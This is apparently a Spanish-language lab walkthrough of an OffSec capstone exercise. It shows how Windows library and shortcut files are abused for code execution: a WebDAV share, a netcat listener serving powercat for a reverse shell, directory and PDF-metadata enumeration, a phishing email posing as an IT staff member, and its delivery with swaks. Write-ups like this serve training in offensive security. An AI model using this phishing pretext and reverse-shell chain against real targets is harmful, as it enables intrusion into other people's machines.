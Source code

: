 # Walk: CapstoneLab - Client-side Attacks - Abusing Windows Library Files - VM Group 2 

## Fecha: 11/06/2025
## Host: Windows
## IP: 192.168.xxx.195 / 192.168.xxx.199 (victima)

---

## Objetivo
Capstone Lab: Enumerate the ADMIN (VM Group 2 - VM #4) machine and find a way to leverage Windows library and shortcut files to get code execution. 
Obtain a reverse shell and find the flag on the desktop for the Administrator user. 
You can use VM #3 of VM Group 2 to prepare your attack.

---
## Herramientas
1. nmap
2. gobuster
3. webdav
4. exiftool

---
## Procedimiento y comandos
1. Paso 1: Configuramos webdav en kali
```bash
┌──(root㉿kali)-[/home/…/OffSec/11-ClientSideAttacks/11.3-lab-WindowsLibraryFiles/Capstone]
└─# wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/OffSec/11-ClientSideAttacks/11.3-lab-WindowsLibraryFiles/Capstone/webdav 
Running without configuration file.
12:15:25.169 - WARNING : App wsgidav.mw.cors.Cors(None).is_disabled() returned True: skipping.
12:15:25.172 - INFO    : WsgiDAV/4.3.3 Python/3.13.2 Linux-6.11.2-amd64-x86_64-with-glibc2.40
12:15:25.172 - INFO    : Lock manager:      LockManager(LockStorageDict)
12:15:25.172 - INFO    : Property manager:  None
12:15:25.172 - INFO    : Domain controller: SimpleDomainController()
12:15:25.172 - INFO    : Registered DAV providers by route:
12:15:25.172 - INFO    :   - '/:dir_browser': FilesystemProvider for path '/usr/lib/python3/dist-packages/wsgidav/dir_browser/htdocs' (Read-Only) (anonymous)
12:15:25.172 - INFO    :   - '/': FilesystemProvider for path '/home/kali/OffSec/11-ClientSideAttacks/11.3-lab-WindowsLibraryFiles/Capstone/webdav' (Read-Write) (anonymous)
12:15:25.172 - WARNING : Basic authentication is enabled: It is highly recommended to enable SSL.
12:15:25.172 - WARNING : Share '/' will allow anonymous write access.
12:15:25.173 - WARNING : Share '/:dir_browser' will allow anonymous write access.
12:15:25.307 - INFO    : Running WsgiDAV/4.3.3 Cheroot/10.0.1 Python/3.13.2
12:15:25.307 - INFO    : Serving on http://0.0.0.0:80 ...
12:15:34.032 - INFO    : 127.0.0.1 - (anonymous) - [2025-06-11 15:15:34] "GET /" elap=0.002sec -> 200 OK
12:15:34.368 - INFO    : 127.0.0.1 - (anonymous) - [2025-06-11 15:15:34] "GET /style.css" depth=0, elap=0.024sec -> 200 OK
12:15:34.368 - INFO    : 127.0.0.1 - (anonymous) - [2025-06-11 15:15:34] "GET /script.js" depth=0, elap=0.023sec -> 200 OK
12:15:34.371 - INFO    : 127.0.0.1 - (anonymous) - [2025-06-11 15:15:34] "GET /logo.png" depth=0, elap=0.001sec -> 200 OK
12:15:34.399 - INFO    : 127.0.0.1 - (anonymous) - [2025-06-11 15:15:34] "GET /script.js" depth=0, elap=0.001sec -> 200 OK
12:15:34.495 - INFO    : 127.0.0.1 - (anonymous) - [2025-06-11 15:15:34] "GET /favicon.ico" depth=0, elap=0.001sec -> 200 OK
12:15:40.753 - INFO    : 127.0.0.1 - (anonymous) - [2025-06-11 15:15:40] "GET /test.txt" depth=0, elap=0.000sec -> 200 OK
12:15:40.962 - INFO    : 127.0.0.1 - (anonymous) - [2025-06-11 15:15:40] "GET /favicon.ico" depth=0, elap=0.000sec -> 404 Not Found
```
2. Paso 2: Nos conectamos por RDP a VM#3
```bash
┌──(root㉿kali)-[/home/…/OffSec/11-ClientSideAttacks/11.3-lab-WindowsLibraryFiles/Capstone]
└─# xfreerdp /u:"offsec" /p:"lab" /v:192.168.104.194 /dynamic-resolution +clipboard /cert:ignore
[12:25:56:879] [9531:9532] [ERROR][com.winpr.timezone] - Unable to find a match for unix timezone: America/Argentina/Buenos_Aires
[12:25:56:381] [9531:9532] [INFO][com.freerdp.gdi] - Local framebuffer format  PIXEL_FORMAT_BGRX32
[12:25:56:381] [9531:9532] [INFO][com.freerdp.gdi] - Remote framebuffer format PIXEL_FORMAT_BGRA32
[12:25:56:495] [9531:9532] [INFO][com.freerdp.channels.rdpsnd.client] - [static] Loaded fake backend for rdpsnd
[12:25:56:496] [9531:9532] [INFO][com.freerdp.channels.drdynvc.client] - Loading Dynamic Virtual Channel rdpgfx
[12:25:56:496] [9531:9532] [INFO][com.freerdp.channels.drdynvc.client] - Loading Dynamic Virtual Channel disp
[12:25:57:283] [9531:9532] [INFO][com.freerdp.client.x11] - Logon Error Info LOGON_FAILED_OTHER [LOGON_MSG_SESSION_CONTINUE]
[12:25:57:424] [9531:9532] [WARN][com.freerdp.core.rdp] - pduType PDU_TYPE_DATA not properly parsed, 562 bytes remaining unhandled. Skipping.
```
3. Generamos los archvos **config.Library-ms** y **automatic_configuration.lnk**

> Estos archivos se generan como en los laboratorios anteriores.Y se copian en el servidor webdav en nuestro kali.

4. Ejecutamos `nc -nlvp 4444` y servimos **powercat.ps1**

5. Debemos buscar un vector de entrega para que la maquina victima acceda a nuestros recursos:

* Bucamos con gobuster algun directorio en el servidor web que nos pueda dar informacion valiosa sobre el entorno empresarial:
```bash
┌──(root㉿kali)-[/home/…/11-ClientSideAttacks/11.3-lab-WindowsLibraryFiles/Capstone/webdav]
└─# gobuster dir -x pdf -u 192.168.104.199 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.104.199
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              pdf
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/info.pdf             (Status: 200) [Size: 676858]
/Info.pdf             (Status: 200) [Size: 676858]
Progress: 9643 / 441122 (2.19%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 9673 / 441122 (2.19%)
===============================================================
Finished
===============================================================
```
* Podemos descargar el pdf y analizarlo con exiftool

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ exiftool info.pdf
ExifTool Version Number         : 13.10
File Name                       : info.pdf
Directory                       : .
File Size                       : 677 kB
File Modification Date/Time     : 2025:06:11 17:09:33-03:00
File Access Date/Time           : 2025:06:11 17:09:33-03:00
File Inode Change Date/Time     : 2025:06:11 17:09:33-03:00
File Permissions                : -rw-rw-r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.7
Linearized                      : No
Page Count                      : 2
Language                        : de-DE
Tagged PDF                      : Yes
XMP Toolkit                     : Image::ExifTool 12.41
Creator                         : Dave Wizard
Title                           : Local Communication
Author                          : Dave Wizard
Producer                        : Microsoft® PowerPoint® for Microsoft 365
Create Date                     : 2022:05:17 15:16:38+02:00
Creator Tool                    : Microsoft® PowerPoint® for Microsoft 365
Modify Date                     : 2022:05:17 15:16:38+02:00
Document ID                     : uuid:EAB0BD66-875C-4E2E-900D-ECCD665BAAA0
Instance ID                     : uuid:EAB0BD66-875C-4E2E-900D-ECCD665BAAA0
```

* Tenemos un nombre **Dave Wizard**
* Generamos un body con el siguiente contenido:
```
Hello! My name is Dwight, and I'm a new member of the IT Team. 

This week I am completing some configurations we rolled out last week.
To make this easier, I've attached a file that will automatically
perform each step. Could you download the attachment, open the
directory, and double-click "automatic_configuration"? Once you
confirm the configuration in the window that appears, you're all done!

If you have any questions, or run into any problems, please let me
know!
```
* Enviamos el mail:
```bash
sudo swaks -t dave.wizard@supermagicorg.com --from test@supermagicorg.com -ap --attach config.Library-ms --server 192.168.104.199 --body body.txt --header "Subject: Problems" --suppress-data 
Username: test@supermagicorg.com
Password: test
=== Trying 192.168.104.199:25...
=== Connected to 192.168.104.199.
<-  220 ADMIN ESMTP
 -> EHLO localhost
<-  250-ADMIN
<-  250-SIZE 20480000
<-  250-AUTH LOGIN
<-  250 HELP
 -> AUTH LOGIN
<-  334 VXNlcm5hbWU6
 -> dGVzdEBzdXBlcm1hZ2ljb3JnLmNvbQ==
<-  334 UGFzc3dvcmQ6
 -> dGVzdA==
<-  235 authenticated.
 -> MAIL FROM:<test@supermagicorg.com>
<-  250 OK
 -> RCPT TO:<dave.wizard@supermagicorg.com>
<-  250 OK
 -> DATA
<-  354 OK, send.
 -> 24 lines sent
<-  250 Queued (1.219 seconds)
 -> QUIT
<-  221 goodbye
=== Connection closed with remote host.
```
* En nuestro servidor obtenemos una peticion 200 y en el receptor nc obtenemos el reverse shell

---
## Troubleshooting

---

## Herramientas Alternativas
- [ ] **Herramienta 1:** Descripción breve (Comando)
- [ ] **Herramienta 2:** Descripción breve (Comando)
- [ ] **Herramienta 3:** Descripción breve (Comando)

